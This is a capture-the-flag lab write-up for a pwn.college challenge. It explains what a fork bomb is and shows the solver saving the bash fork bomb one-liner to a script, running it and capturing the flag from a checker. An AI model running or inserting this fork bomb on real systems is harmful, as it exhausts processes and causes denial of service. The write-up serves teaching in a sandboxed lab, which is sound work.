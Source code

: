 # Daring Destruction

## The Fork Bomb
As you learned in the Processes and Jobs module, whenever you start a program the Linux operating system creates a new process. If you create processes faster than the kernel can handle, the process table fills up and everything grinds to a halt. This new process (e.g., of an ls invocation) is ``forked'' off of a parent process (e.g., a shell instance). Thus, the induced explosion of processes is called a "Fork Bomb".

You have the tools to do this:

- write a small script (like in the Chaining Commands module)
- make it executable (like in the Perceiving Permissions module)
- make it launch a copy of itself in the background (like in the Processes and Jobs module)
- and then launch another copy of itself in the background!
Each copy will launch two more, and each of those will launch two more, and you will flood the system with so many processes that new ones will not be able to start!

This challenge contains a /challenge/check that'll try to determine if your fork bomb is working (e.g., if it can't launch new processes) and give you the flag if so. Make sure to launch it (in a different terminal) before launching your attack; otherwise you won't be able to launch it!

NOTE: Needless to say, this will render your environment unusable. Just restart the challenge (or start a different one) to get things back to a usable state!


### Solve
**Flag: pwn.college{gsMsw22EjJDglPFF-h9dlwhWj9O.0VMyEzNxwyNwAzNzEzW}**

```bash
#Terminal 1
hacker@destruction~the-fork-bomb:~$ nano fork_bomb.sh
  GNU nano 8.4                                                fork_bomb.sh                                                             :(){ :|:& };:
hacker@destruction~the-fork-bomb:~$ chmod +x fork_bomb.sh
hacker@destruction~the-fork-bomb:~$ ./fork_bomb.sh
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
./fork_bomb.sh: fork: retry: Resource temporarily unavailable
```

```bash
#Terminal 2
hacker@destruction~the-fork-bomb:~$ /challenge/check
It looks like the system can still spawn processes. We'll check again in 5 seconds...
It looks like the system can still spawn processes. We'll check again in 5 seconds...
You successfully saturated the process table.  Here is your hard-earned flag:
pwn.college{gsMsw22EjJDglPFF-h9dlwhWj9O.0VMyEzNxwyNwAzNzEzW}
```
I ran the fork bomb with the code " :(){ :|:& };: " for denial of service and set the permissions of fork bomb to be executable and executed it to flood the terminal with fork bombs, which in the second terminal, successfully completed the check and gave the flag.
